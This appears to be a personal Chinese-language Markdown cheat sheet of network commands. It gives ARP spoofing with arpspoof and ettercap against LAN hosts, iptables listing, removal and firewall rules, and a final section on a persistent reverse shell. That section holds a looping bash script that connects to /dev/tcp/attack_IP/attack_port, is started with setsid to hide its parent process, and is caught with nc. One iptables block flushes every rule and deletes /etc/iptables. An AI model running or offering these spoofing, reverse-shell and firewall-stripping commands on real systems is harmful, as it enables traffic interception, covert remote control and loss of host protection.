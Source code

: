 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```
## others
* driftnet
* upx
* od

# iptables

> https://www.digitalocean.com/community/tutorials/how-to-list-and-delete-iptables-firewall-rules

## 显示规则
```shell
sudo iptables -vL # 显示iptables规则,--line-number可以显示规则编号,用于指定删除某条规则
```

## 删除一条规则
```shell
sudo iptables -D # 用于删除
sudo iptables -D INPUT # 删除所有INPUT规则
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则,编号来自--line-number
```

## 删除所有iptables规则
```shell
#开放所有端口
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -F
#Oracle自带的Ubuntu镜像默认设置了Iptable规则，关闭它
apt-get purge netfilter-persistent
#删除配置文件后需要重启
rm -rf /etc/iptables && reboot
```

## 添加防火墙规则
```shell
iptables -A INPUT -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

## 其他
```shell
sudo iptables -D # 用于清除规则上的数据统计
sudo iptables -D INPUT # 删除所有INPUT规则上的数据统计
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则上的数据统计,编号来自--line-number
```

## 实战例子
```shell
# 禁止该IP对于22端口访问
sudo iptables -A INPUT -s 180.101.88.249 -p tcp --dport 22 -j DROP

# 只允许固定IP对22端口访问，这是规则链是什么意思就很明确了，先过第一条检查该IP，在走第二条规则
# 如果两条规则反过来就错了
sudo iptables -A INPUT -p tcp --dport 22 -s 允许的IP地址 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
```

# reverse shell

    启用tcp连接主机，每隔10秒连接一次。当主机开启监听就直接向靶机发送指令。
    主机不在连接中，靶机上也看不到tcp信息，但是能看到进程信息。
    所以要将启动的进程的父进程设置为init(1)，用setsid命令将程序执行启动
1. 在靶机上启动反向shell

    创建如下文件reverse_shell.sh
```shell
#!/bin/bash

while true;do bash -i 2>/dev/null &> /dev/tcp/attack_IP/attack_port 0>&1;sleep 10; done;
```
    启动该程序
```shell
setsid reverse_shell.sh
```

2. 在攻击机器上接收
```shell
nc -lvp attack_port
```